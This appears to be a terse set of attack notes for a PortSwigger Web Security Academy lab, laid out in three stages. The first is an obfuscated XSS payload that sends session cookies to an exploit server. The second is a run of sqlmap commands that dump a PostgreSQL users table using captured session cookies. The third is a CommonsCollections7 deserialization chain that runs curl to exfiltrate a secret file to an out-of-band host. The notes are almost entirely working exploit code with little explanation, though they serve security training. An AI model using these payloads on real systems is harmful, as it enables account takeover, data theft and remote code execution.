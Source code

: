 stage 1

PoC:
"+eval(atob("YWxlcnQoMSk="))}//

fetch("https://exploit-0a9b009e04a8929682d05f8e015100d4.exploit-server.net/?c="+btoa(document['cookie'])) base64-ezve:
ZmV0Y2goImh0dHBzOi8vZXhwbG9pdC0wYTliMDA5ZTA0YTg5Mjk2ODJkMDVmOGUwMTUxMDBkNC5leHBsb2l0LXNlcnZlci5uZXQvP2M9IitidG9hKGRvY3VtZW50Wydjb29raWUnXSkp

"+eval(atob("ZmV0Y2goImh0dHBzOi8vZXhwbG9pdC0wYTliMDA5ZTA0YTg5Mjk2ODJkMDVmOGUwMTUxMDBkNC5leHBsb2l0LXNlcnZlci5uZXQvP2M9IitidG9hKGRvY3VtZW50Wydjb29raWUnXSkp"))}//

<script>
location = "https://0a9700a504d29218829f608d009f0069.web-security-academy.net/?SearchTerm=%22%2Beval%28atob%28%22ZmV0Y2goImh0dHBzOi8vZXhwbG9pdC0wYTliMDA5ZTA0YTg5Mjk2ODJkMDVmOGUwMTUxMDBkNC5leHBsb2l0LXNlcnZlci5uZXQvP2M9IitidG9hKGRvY3VtZW50Wydjb29raWUnXSkp%22%29%29%7D%2F%2F"
</script>

stage 2

try --level=5 if everything fails.
try with a normal string such as ASC.

python3 sqlmap.py -u 'https://0a9700a504d29218829f608d009f0069.web-security-academy.net/advanced_search?SearchTerm=aa&organize_by=DATE&blogArtist=' --compressed -H 'User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:125.0) Gecko/20100101 Firefox/125.0' -H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8' -H 'Accept-Language: hu-HU,hu;q=0.8,en-US;q=0.5,en;q=0.3' -H 'Accept-Encoding: gzip, deflate, br' -H 'Connection: keep-alive' -H 'Cookie: session=04P1Odvmp3d1T8mdjAzzIZJ3nP4kMixh; _lab=46%7cMCwCFCLZehc2VF7%2bRvCbZ%2bcKMC9QCZfQAhRDw0gIZFU9v9aEKv1aJ06rIIpK5gNbPA5Wt3tY5li%2fYJzEk%2fUOaKgqPHUkRyEIQ%2fADl3nxUwZpz3GLf1uQDSCs19S94%2bW1vQRnUx0l2EbZLoBBleUUzZ6BweUxhoUXIz3IS7wdYs8LW%2f0%3d' -H 'Upgrade-Insecure-Requests: 1' -H 'Sec-Fetch-Dest: document' -H 'Sec-Fetch-Mode: navigate' -H 'Sec-Fetch-Site: none' -H 'Sec-Fetch-User: ?1' -H 'TE: trailers' -p 'organize_by' -batch


python3 sqlmap.py -u 'https://0a9700a504d29218829f608d009f0069.web-security-academy.net/advanced_search?SearchTerm=aa&organize_by=DATE&blogArtist=' --compressed -H 'User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:125.0) Gecko/20100101 Firefox/125.0' -H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8' -H 'Accept-Language: hu-HU,hu;q=0.8,en-US;q=0.5,en;q=0.3' -H 'Accept-Encoding: gzip, deflate, br' -H 'Connection: keep-alive' -H 'Cookie: session=04P1Odvmp3d1T8mdjAzzIZJ3nP4kMixh; _lab=46%7cMCwCFCLZehc2VF7%2bRvCbZ%2bcKMC9QCZfQAhRDw0gIZFU9v9aEKv1aJ06rIIpK5gNbPA5Wt3tY5li%2fYJzEk%2fUOaKgqPHUkRyEIQ%2fADl3nxUwZpz3GLf1uQDSCs19S94%2bW1vQRnUx0l2EbZLoBBleUUzZ6BweUxhoUXIz3IS7wdYs8LW%2f0%3d' -H 'Upgrade-Insecure-Requests: 1' -H 'Sec-Fetch-Dest: document' -H 'Sec-Fetch-Mode: navigate' -H 'Sec-Fetch-Site: none' -H 'Sec-Fetch-User: ?1' -H 'TE: trailers' -p 'organize_by' -batch --flush-session --dbms postgresql --technique E --level 3


python3 sqlmap.py -u 'https://0a9700a504d29218829f608d009f0069.web-security-academy.net/advanced_search?SearchTerm=aa&organize_by=DATE&blogArtist=' --compressed -H 'User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:125.0) Gecko/20100101 Firefox/125.0' -H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8' -H 'Accept-Language: hu-HU,hu;q=0.8,en-US;q=0.5,en;q=0.3' -H 'Accept-Encoding: gzip, deflate, br' -H 'Connection: keep-alive' -H 'Cookie: session=04P1Odvmp3d1T8mdjAzzIZJ3nP4kMixh; _lab=46%7cMCwCFCLZehc2VF7%2bRvCbZ%2bcKMC9QCZfQAhRDw0gIZFU9v9aEKv1aJ06rIIpK5gNbPA5Wt3tY5li%2fYJzEk%2fUOaKgqPHUkRyEIQ%2fADl3nxUwZpz3GLf1uQDSCs19S94%2bW1vQRnUx0l2EbZLoBBleUUzZ6BweUxhoUXIz3IS7wdYs8LW%2f0%3d' -H 'Upgrade-Insecure-Requests: 1' -H 'Sec-Fetch-Dest: document' -H 'Sec-Fetch-Mode: navigate' -H 'Sec-Fetch-Site: none' -H 'Sec-Fetch-User: ?1' -H 'TE: trailers' -p 'organize_by' -batch --flush-session --dbms postgresql --technique E --level 3 --dbs


python3 sqlmap.py -u 'https://0a9700a504d29218829f608d009f0069.web-security-academy.net/advanced_search?SearchTerm=aa&organize_by=DATE&blogArtist=' --compressed -H 'User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:125.0) Gecko/20100101 Firefox/125.0' -H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8' -H 'Accept-Language: hu-HU,hu;q=0.8,en-US;q=0.5,en;q=0.3' -H 'Accept-Encoding: gzip, deflate, br' -H 'Connection: keep-alive' -H 'Cookie: session=04P1Odvmp3d1T8mdjAzzIZJ3nP4kMixh; _lab=46%7cMCwCFCLZehc2VF7%2bRvCbZ%2bcKMC9QCZfQAhRDw0gIZFU9v9aEKv1aJ06rIIpK5gNbPA5Wt3tY5li%2fYJzEk%2fUOaKgqPHUkRyEIQ%2fADl3nxUwZpz3GLf1uQDSCs19S94%2bW1vQRnUx0l2EbZLoBBleUUzZ6BweUxhoUXIz3IS7wdYs8LW%2f0%3d' -H 'Upgrade-Insecure-Requests: 1' -H 'Sec-Fetch-Dest: document' -H 'Sec-Fetch-Mode: navigate' -H 'Sec-Fetch-Site: none' -H 'Sec-Fetch-User: ?1' -H 'TE: trailers' -p 'organize_by' -batch --flush-session --dbms postgresql --technique E --level 3 -D public --tables

python3 sqlmap.py -u 'https://0a9700a504d29218829f608d009f0069.web-security-academy.net/advanced_search?SearchTerm=aa&organize_by=DATE&blogArtist=' --compressed -H 'User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:125.0) Gecko/20100101 Firefox/125.0' -H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8' -H 'Accept-Language: hu-HU,hu;q=0.8,en-US;q=0.5,en;q=0.3' -H 'Accept-Encoding: gzip, deflate, br' -H 'Connection: keep-alive' -H 'Cookie: session=04P1Odvmp3d1T8mdjAzzIZJ3nP4kMixh; _lab=46%7cMCwCFCLZehc2VF7%2bRvCbZ%2bcKMC9QCZfQAhRDw0gIZFU9v9aEKv1aJ06rIIpK5gNbPA5Wt3tY5li%2fYJzEk%2fUOaKgqPHUkRyEIQ%2fADl3nxUwZpz3GLf1uQDSCs19S94%2bW1vQRnUx0l2EbZLoBBleUUzZ6BweUxhoUXIz3IS7wdYs8LW%2f0%3d' -H 'Upgrade-Insecure-Requests: 1' -H 'Sec-Fetch-Dest: document' -H 'Sec-Fetch-Mode: navigate' -H 'Sec-Fetch-Site: none' -H 'Sec-Fetch-User: ?1' -H 'TE: trailers' -p 'organize_by' -batch --flush-session --dbms postgresql --technique E --level 3 -D public -T users --dump


stage 3

Compress using gzip
Encode using Base64
Encode using URL encoding

CommonsCollections7 'curl https://547ky7x77s0wgog2b0hozp6bb2ht5l29r.oastify.com'

CommonsCollections7 'curl https://547ky7x77s0wgog2b0hozp6bb2ht5l29r.oastify.com -d @/home/carlos/secret'

